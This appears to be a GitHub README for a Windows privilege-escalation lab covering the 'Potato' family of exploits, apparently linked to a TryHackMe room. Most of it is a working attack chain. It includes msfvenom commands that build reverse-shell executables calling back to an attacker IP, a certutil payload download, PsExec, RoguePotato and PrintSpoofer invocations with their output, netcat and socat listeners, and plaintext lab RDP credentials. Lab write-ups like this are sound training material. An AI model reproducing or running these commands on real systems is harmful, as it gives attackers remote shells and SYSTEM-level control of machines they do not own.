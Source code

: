 
# Potato Family:2k19


Get a service account by exploiting or if you want to do a demo :

**Big Thanks to Tiberius for the awesome WinPriv course. You can checkout his awesome course here. I couldnot have done without his help and it is his setup :**
https://www.udemy.com/course/windows-privilege-escalation/


Binaries are in the folder called files.

You have to login as the admin and then spawn a shell using the following command which can mimic the service account you get when you exploit a service to obtain a shell.

To make the reverse executables:
```zsh
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.11.238 LPORT=443 -f exe > reverse.exe

msfvenom -p windows/shell_reverse_tcp LHOST=10.11.11.238 LPORT=53 -f exe > rev.exe

```

To transfer them start a python server where you have these executables and this on the Windows shell.

```cmd
certutil -urlcache -split -f http://YOURIPFORTHEVPN:PORT/reverse.exe
```
To obtain a mimiced service account:

```cmd
C:\PrivEsc\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe
```

https://tryhackme.com/room/windows10privesc

rdp creds
user:password321
admin:password123

--------------------------------------------------


RoguePotato.exe 

```zsh
RoguePotato.exe -r 10.11.11.238 -e "C:\PrivEsc\rev.exe" -l 9999
```
First IP is your Kali machine IP over the VPN

We have rev.exe using msfvenom which can connect to port 53 on our kali machine so:

```zsh
nc -lvnp 53
```

```zsh
sudo socat tcp-listen:135,reuseaddr,fork tcp:10.10.67.56:9999
```
Here the IP is the Windows IP which we are trying to crack into.

![Rogue Potato in action](./files/Rogue.png)
------------------------------------------------------

Printspoofer.exe

```cmd
PrintSpoofer.exe -i -c rev.exe                                                                                                                                   
PrintSpoofer.exe -i -c rev.exe                                                                                                                                              
[+] Found privilege: SeImpersonatePrivilege                                                                                                                                 
[+] Named pipe listening...                                                                                                                                                 
[+] CreateProcessAsUser() OK
```

```zsh
 nc -lvnp 53
```

![PrintSpoofer.exe](./files/printspoofer.png)